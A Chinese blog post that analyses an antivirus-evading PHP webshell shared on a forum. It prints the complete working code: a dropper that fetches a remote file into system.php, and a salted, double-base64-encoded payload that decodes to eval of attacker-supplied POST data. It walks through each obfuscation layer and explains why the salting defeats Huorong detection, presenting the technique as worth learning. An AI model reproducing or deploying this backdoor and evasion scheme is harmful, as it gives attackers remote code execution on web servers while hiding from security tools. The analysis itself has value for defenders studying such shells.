



# 1 前言

今天逛某论坛时看到了一篇分享免杀shell的帖子，但没有详细的解析，经过自己的一番研究（其实是问AI，然后理解）后，就有了这篇博客。

也算是再巩固一下原理，**加密思路很值得学习**

## 1.1 源码

### 1.1.1 后门文件

```php
<?php file_put_contents("system.php",file_get_contents("http://local/1.txt"));?>
```

### 1.1.2 真正的shell文件

```php
<?php
$username = 'eE7IHePm';
$password = 'SeE7IHePmkeE7IHePmZWUFeE7IHePmRIRTlZM0psWVhSbFgyWjFibU4wYVc5dUtHSmhjMlUyTkY5a1pXTnZaR1VvSjBwQlBUMG5LUzVqYUhJb01IZ3haakF0TUhneE4yUXBMbU5vY2lnd01UTTBNVEEzTHpBMk5URXBMbk4wY2w5eWIzUXhNeWduZWljcExtSmhjMlUyTkeE7IHePmY5a1pXTnZaR1VvSjFwUlBUMG5LU3hpWVhObE5qUmZaR1ZqYjJSbEtDZGFVVDA5SnlrdVkyaHlLREI0TVRBekxUQjRPR1FwTG5OMGNsOXliM1F4TXlnbmJpY3BMbU5vY2lnd01URTBNQzB3TnpZMEtTNXpkSEpmY205ME1UTW9KeWduS1M1emRISmZjbTkwTVRNb0p5UW5LUzV6ZEhKZmNtOTBNVE1vSjJZbktTNWphSElvTURVeE55MHdNelF3S1M1aVlYTmxOalJmWkdWamIyUmxLQ2RpVVQwOUp5a3VjM1J5WDNKdmRERXpLQ2R5SnlrdVkyaHlLRE0xTmpjd0x6ZzNNQ2t1WTJoeUtEQjRZMlUwTlM4d2VETTNaaWtwT3lSVlQweHhLR0poYzJVMk5GOWtaV052WkdVb0owOVVXVEJOSnk0blZFVXpUekFuTGlkQ2JHUnJSaWN1SjNOTFExSm1KeTRuSnk1emRISmZjbTkwTVRNb0owZ25LUzVqYUhJb01ERTNNall4TXk4d01UWXhOeWt1YzNSeVgzSnZkREV6S0NjNUp5a3VZbUZ6WlRZMFgyUmxZMjlrWlNnblZrRTlQU2NwTG5OMGNsOXliM1F4TXlnblNTY3BMaWNuTGljbkxtTm9jaWd3ZUdObE1tTXZNSGd5WmpJcExtSmhjMlUyTkY5a1pXTnZaR1VvSjJSQlBUMG5LUzVqYUhJb01qY3dPRFF2TXpZMktTNWphSElvTURJek5UUTFOUzh3TVRRMU55a3VjM1J5WDNKdmRERXpLQ2RTSnlrdUp5Y3VKemxYVWtjeEp5NG5kMWt4TUhBbkxpZFBla2swVHljdUoxUkplazVVSnk0blJUY25MaWNuS1NrNw==';
header('dddddd:'.$username);
$arr = apache_response_headers();
$template_source='';
foreach ($arr as $k => $v) {
    if ($k[0] == 'd' && $k[4] == 'd') {
        $template_source = str_replace($v,'',$password);
    }
}
$template_source = base64_decode($template_source);
$template_source = base64_decode($template_source);
$key = 'template_source';
$aes_decode=$$key;
@eval($aes_decode);
```

# 2 解析

关于后面文件，就是两个php函数，浏览器搜索一下就行了，主要学习的是加密思路

## 2.1 第一层

代码开始定义两个参数`$username`、`$password`,**其中`$username`相当于加密中的“盐”，而`$password`则是一个正常的base64编码**，但其中混杂了“盐”（`$username`）就使得`$password`不能直接进行base64解密。



中间还有一些“盐”没标出来。

后面就是对`$password`的解密。



## 2.2 第二层

`$password`正常解密后得到如下代码

```php
$UOLq=create_function(base64_decode('JA==').chr(0x1f0-0x17d).chr(0134107/0651).str_rot13('z').base64_decode('ZQ=='),base64_decode('ZQ==').chr(0x103-0x8d).str_rot13('n').chr(01140-0764).str_rot13('(').str_rot13('$').str_rot13('f').chr(0517-0340).base64_decode('bQ==').str_rot13('r').chr(35670/870).chr(0xce45/0x37f));$UOLq(base64_decode('OTY0M'.'TE3O0'.'BldkF'.'sKCRf'.''.str_rot13('H').chr(0172613/01617).str_rot13('9').base64_decode('VA==').str_rot13('I').''.''.chr(0xce2c/0x2f2).base64_decode('dA==').chr(27084/366).chr(0235455/01457).str_rot13('R').''.'9WRG1'.'wY10p'.'OzI4O'.'TIzNT'.'E7'.''));
|
|
V
$UOLq=create_function(
    base64_decode('JA==').chr(0x1f0-0x17d).chr(0134107/0651).str_rot13('z').base64_decode('ZQ=='),
    base64_decode('ZQ==').chr(0x103-0x8d).str_rot13('n').chr(01140-0764).str_rot13('(').str_rot13('$').str_rot13('f').chr(0517-0340).base64_decode('bQ==').str_rot13('r').chr(35670/870).chr(0xce45/0x37f)
);
$UOLq(base64_decode('OTY0M'.'TE3O0'.'BldkF'.'sKCRf'.''.str_rot13('H').chr(0172613/01617).str_rot13('9').base64_decode('VA==').str_rot13('I').''.''.chr(0xce2c/0x2f2).base64_decode('dA==').chr(27084/366).chr(0235455/01457).str_rot13('R').''.'9WRG1'.'wY10p'.'OzI4O'.'TIzNT'.'E7'.''));
```

这一层主要有两个部分

- 第一个是使用PHP中的`create_function()`函数创造一个名为`$UOLq`的函数，`create_function()`函数有两个参数，第一个参数指定新创造函数的参数，第二个函数指定新创造函数的函数体。
- 第二个是使用$UOLq函数。

注意一下服务器php版本



它们的参数也都分别用三种编码方法拆开进行了编码，**但其实这部分源码已经不能进行加密了，火绒能够检测出来**。

## 2.3 第三层

先来讲讲这三个编码方法吧（其实是str_rot13我不是很了解）

- base64()没事好说的
- chr()函数是将ascii码转换成字符串
- str_rot13() 函数对字符串执行 ROT13 编码。ROT13 编码是把每一个字母在字母表中向前移动 13 个字母得到。数字和非字母字符保持不变。

第二层解码后

```php
$UOLq=create_function($some,eval($some););
$UOLq(964117;@evAl($_POST[IpOVDmpc]);2892351;);
```

相当于（一下代码并不能运行，毕竟不符合函数命名规范，只是一个**比喻**）

```php
function $UOLq($some) {
    eval($some);
}
$UOLq(964117;@evAl($_POST[IpOVDmpc]);2892351;);
```

# 3 总结

shell最终执行效果相当于（也只是比喻，不符合PHP规范）

```php
@eval($UOLq=create_function('$some','eval($some);');$UOLq('964117;@evAl($_POST[IpOVDmpc]);2892351;'););
```

这个动态shell能绕过火绒检测原因**主要是加盐**，导致第一次base64解码不出来，从而使火绒无法识别。在第二层的时候火绒就能够识别出是shell了。

*挺有意思的*
